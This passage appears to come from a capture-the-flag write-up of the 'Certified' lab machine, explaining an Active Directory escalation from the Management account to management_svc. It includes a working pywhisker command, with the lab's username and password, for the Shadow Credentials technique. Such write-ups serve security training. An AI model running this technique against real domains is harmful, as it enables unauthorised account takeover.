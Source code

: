 ##### _Management_ → _Management_svc_

At this step to escalate there are two options: crack a hash or use _Shadow Credentials_. To avoid lengthening the article, the hash is not found in the **rockyou** dictionary, so I'll show how [Shadow Credentials](# "Technique that abuses permissions in AD to add alternative keys to an account and authenticate as it without knowing its password.") work.

![path2](../../../../../assets/certified/path2.png)

- 1º To use _Shadow Credentials_ we install [pywhisker](https://github.com/ShutdownRepo/pywhisker)

```
pywhisker -d "certified.htb" -u "judith.mader" -p "judith09" --target "management_svc" --action "add"
```
![pywi](../../../../../assets/certified/pyw.png)
